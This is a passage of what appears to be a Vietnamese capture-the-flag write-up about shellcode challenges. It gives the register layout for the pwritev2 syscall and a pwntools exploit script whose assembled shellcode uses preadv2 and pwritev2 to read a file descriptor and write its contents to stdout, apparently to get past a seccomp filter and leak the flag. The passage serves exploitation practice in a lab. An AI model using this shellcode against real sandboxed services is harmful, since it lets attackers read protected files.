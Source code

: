 ```
rax: Số syscall (334 cho pwritev2).
rdi: File descriptor (fd).
rsi: Con trỏ tới mảng iovec chứa dữ liệu cần ghi.
rdx: Số lượng buffer (iovcnt).
r10: Offset.
r8: Flags.
```

script 
```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./challenge',checksec=False)
context.arch = 'amd64'
p = process()


#gdb.attach(p,gdbscript='''
#           b*main+374
#           ''')

shellcode2 = asm('''
                 mov rax,0x147
                 mov rdi,3
                 push 0x10000
                 add rdx,0x18
                 push rdx
                 mov rdx,1
                 mov rsi,rsp
                 mov r8,0
                 mov r9,0
                 mov r10,0
                 syscall
                 mov rax, 0x148
                 mov rdi, 0x1
                 mov rdx, 0x1
                 mov r10, -1
                 mov r8, -1
                 syscall
                 ''')
input()
p.send(shellcode2)

p.interactive()
```

### mmap and wrivev

```
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
```
